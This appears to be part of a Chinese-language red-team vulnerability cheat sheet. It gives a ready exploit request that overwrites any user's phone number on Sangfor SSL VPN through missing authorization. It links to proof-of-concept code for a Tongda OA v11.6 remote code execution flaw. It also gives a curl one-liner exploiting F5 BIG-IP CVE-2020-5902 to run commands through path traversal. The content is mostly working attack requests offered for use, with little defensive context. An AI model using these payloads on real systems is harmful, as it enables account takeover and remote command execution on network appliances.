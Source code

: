 ### 深信服 SSL VPN 修改任意账户手机号

&emsp;&emsp;修改手机号接口未正确鉴权导致越权覆盖任意用户的手机号码，利用条件需要登录账号。

```
https://<PATH>/por/changetelnum.csp?apiversion=1

newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1
```

![](/img/HW-Vuln/HW30.png)

### 通达OA v11.6 版本RCE漏洞

* `https://www.cnblogs.com/yuzly/p/13600532.html`

* `https://github.com/TomAPU/poc_and_exp`

### F5负载均衡 RCE [CVE-2020-5902]

&emsp;&emsp;版本影响：

* BIG-IP 15.x: 15.1.0/15.0.0

* BIG-IP 14.x: 14.1.0 ~ 14.1.2

* BIG-IP 13.x: 13.1.0 ~ 13.1.3

* BIG-IP 12.x: 12.1.0 ~ 12.1.5

* BIG-IP 11.x: 11.6.1 ~ 11.6.5

&emsp;&emsp;远程命令执行RCE：`curl -v -k 'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'`

![](/img/HW-Vuln/HW31.png)

![](/img/HW-Vuln/HW32.png)
